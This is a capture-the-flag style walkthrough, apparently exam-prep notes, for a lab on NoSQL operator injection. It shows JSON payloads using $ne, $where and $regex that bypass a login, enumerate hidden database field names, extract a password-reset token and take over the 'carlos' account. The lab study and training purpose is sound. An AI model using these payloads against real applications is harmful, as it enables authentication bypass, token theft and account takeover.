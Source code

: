 11. Authenticate to the application as Administrator
# Exploiting NoSQL operator injection to extract unknown fields
- Login as `carlos`
1. Login page
2. Forgot password > Enter `carlos` username
3. Capture login request for `carlos` > Observe request is made in JSON
```json
{"username":"carlos","password":"password"}
```
- We receive "Invalid password" response and 3,587 bytes in the response
4. Inject a `$ne` operator to test authentication bypass
```JSON
{"username":"carlos","password":{"$ne":"password"}}
```
- We receive "Account locked" response and 3,601 bytes in the response
5. Test boolean conditions to determine between TRUE and FALSE behaviour
```JSON
{"username":"carlos","password":{"$ne":"password"},"$where":"1"} // TRUE
{"username":"carlos","password":{"$ne":"password"},"$where":"0"} // FALSE
```
- TRUE condition returns "Account locked" response
- FALSE condition returns "Invalid password" response
5. Inject an operator to see if we can extract the length of specific field names
```JSON
{"username":"carlos","password":{"$regex":"^.*"},"$where":"Object.keys(this)[0].match('^.{3}$')"}
```
- Fuzz the `{3}` with numbers payload in Intruder
- Change the `[0]` selector to change the field we are querying
- We receive a TRUE response for the first field being `3` characters
6. Checking different fields, we discover the following
	1. `[1]` = `username`
	2. `[2]` = `password`
	3. `[3]` = `email`
7. Now we brute-force the `[4]` field
	1. First get the length of the field
```JSON
{"username":"carlos","password":{"$regex":"^.*"},"$where":"Object.keys(this)[4].match('^.{13}$')"}
```
- TRUE response for 13 indicating the field name is 13 characters long
8. Use the [fieldName_exfiltration.py](https://github.com/MINEGOBLIN/BSCP/blob/main/NoSQLi/Resources/fieldName_exfiltration.py) script to extract the field name
	1. Change the `url` variable to match your lab
	2. Change the `if len(a) == 13` to match the length of the field that you extracted in your lab
9. We have extracted the field name to be `resetPwdToken`
10. Use this new field along with `$regex` to extract the length of the value
```JSON
{"username":"carlos","password":{"$ne":"1"},"resetPwdToken":{"$regex":"^.{FUZZ}$"} }
```
- Configuration:
	- Numbers payload
	- 0 - 50
	- Run attack and look for the TRUE response (larger byte size or "Account locked" message in HTTP response)
11. Use the [fieldNameValue_exfiltration.py](https://github.com/MINEGOBLIN/BSCP/blob/main/NoSQLi/Resources/fieldNameValue_exfiltration.py) script to extract the value of the `resetPwdToken`
	1. Change the `url` variable to match your lab
	2. Change the `if len(a) == 16` to match the length of the field that you extracted in your lab
12. With this extracted token navigate to the `/forgot/password` endpoint
```
GET /forgot-password?resetPwdToken=029f45c76794a059
```
13. Reset password > Authenticate as Carlos
